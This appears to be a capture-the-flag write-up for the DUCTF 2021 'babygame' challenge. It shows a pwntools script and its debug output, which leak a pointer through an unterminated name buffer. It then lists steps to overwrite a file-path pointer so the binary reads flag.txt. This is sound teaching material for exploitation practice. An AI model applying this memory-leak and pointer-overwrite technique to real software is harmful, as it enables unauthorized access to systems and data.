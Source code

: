 ```
from pwn import *

context.log_level = 'debug'

r = process("./babygame")

r.recvuntil(b"name?")
r.send(b"A" * 0x1f + b"B")
r.recvuntil(b">")
r.sendline(b"2")
print(r.recvline())
```

```
[DEBUG] Received 0x1c bytes:
    b'Welcome, what is your name?\n'
[DEBUG] Sent 0x20 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB'
[DEBUG] Received 0x24 bytes:
    b'1. Set Username\n'
    b'2. Print Username\n'
    b'> '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x4b bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 42  │AAAA│AAAA│AAAA│AAAB│
    00000020  24 40 17 ef  71 55 0a 31  2e 20 53 65  74 20 55 73  │$@··│qU·1│. Se│t Us│
    00000030  65 72 6e 61  6d 65 0a 32  2e 20 50 72  69 6e 74 20  │erna│me·2│. Pr│int │
    00000040  55 73 65 72  6e 61 6d 65  0a 3e 20                  │User│name│·> │
    0000004b
b' AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB$@\x17\xefqU\n'
[*] Stopped process './babygame' (pid 2704)
[*] Closed connection to pwn-2021.duc.tf port 31907
```

As we can see, it leaked more than the `NAME`. After `NAME` comes `RANDBUF`, which is 
the path the random number will be read from. We also know that the size of the new `NAME`
is `strlen(old name)`, which means that now we can also overwrite the `RANDBUF`!
The idea is to write the new path in `NAME`, then overwrite `RANDBUF` with the address of `NAME`, 
so when it generates the random number we can control where it reads it from.
My first idea was `/dev/null` because it only outputs zeroes, but it didn't exist in the chroot the challenge
is running in. But one file that we definitely know it exists is `flag.txt`. We also know that the
first four bytes of the flag is `DUCT`, which is 1413698884 if we translate it into a dword.

So, steps:
- set the first name to any 0x20 characters
- check that printing the name prints the address of randbuf
- get the leaked address and calculate the base of the binary
- calculate the address of name
- send the name as "flag.txt\x00" + random chars + address of name
- send 1337 to call `game`
- send "1413698884"
- profit
